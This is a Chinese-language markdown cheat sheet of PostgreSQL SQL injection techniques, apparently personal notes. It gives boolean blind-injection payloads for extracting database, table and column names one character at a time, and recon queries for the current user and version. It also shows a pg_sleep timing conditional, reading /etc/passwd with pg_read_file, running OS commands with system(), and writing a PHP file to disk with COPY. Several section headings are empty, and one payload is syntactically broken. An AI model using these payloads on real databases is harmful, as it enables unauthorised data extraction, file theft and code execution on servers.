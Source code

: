 ## PostgreSQL数据库的注入
### 一、联合注入


### 二、报错注入


### 三、布尔盲注
```sql
--先猜当前数据库的长度
and (select length(current_database())) between 0 and 30

--ascii猜解库名的每个字符
and (select ascii(substr(current_database(),1,1))) between 0 and 30

---猜解数据库的表的个数
and (select count(*) from pg_stat_user_tables) between 0 and 30

--猜解库里的表名的长度
and (select length(relname) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--猜解表名里面的每个字符
and (select ascii(substr(relname,1,1)) from pg_stat_user_tables limit 1 OFFSET 0) between 0 and 30

--接下来猜解字段名
and (select+ascii(substr(column_name,1,1)) information_schema.columns where table_name=aaa) between 0 and 30
```

### 四、时间盲注

### 五、PostgreSQL语法
#### 常用语法
select CURRENT_SCHEMA()           #查看当前权限
select user                       #查看用户
select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
select pg_read_file('/etc/passwd');          #读取文件
select system('whoami');                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件

#### 注意点
此数据库有一个特性，使用like查询子句时，比如：
```SQL
where aaa like '%aaa%';
```
这里单引号可以使用$$代替，如:
```SQL
where aaa like $$%aaa%$$;
```
但是暂时不知道原因！
